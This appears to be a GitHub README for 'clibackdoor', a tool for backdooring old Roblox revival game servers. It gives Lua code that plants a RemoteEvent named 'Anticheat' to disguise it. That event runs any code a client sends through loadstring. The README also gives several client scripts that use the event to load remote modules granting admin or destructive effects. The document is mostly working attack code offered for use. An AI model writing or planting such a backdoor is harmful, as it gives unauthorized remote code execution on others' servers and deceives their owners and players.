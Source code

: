 # clibackdoor
A backdoor for old Roblox clients
## How do I use it?
First, put this code into a random script or make a script in a random object:
```
-- clibackdoor, by the b1 fanclub

local ac = Instance.new("RemoteEvent", game.ReplicatedStorage)
ac.Name = "Anticheat"
ac.OnServerEvent:connect(function(player, SS)
    loadstring(SS)()
end)
```
Then, once you did that, click Workspace, and make sure LoadstringEnabled is enabled. If it is not in Workspace, then check in ServerScriptService.

If you have a clientsided executor for the revival you're exploiting, run this or any examples:
```
-- i like my cheese drippy bro
local moduleID = 970596902
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
# Examples
## Tree Smasher
```
-- i like my cheese drippy bro
local moduleID = 970596902
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
## Kohl's Admin Epix
```
-- i like my cheese drippy bro
local moduleID = 522666193
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).giveAdmin("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
## Mustard Gas
```
-- i like my cheese drippy bro
local moduleID = 1196228933
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
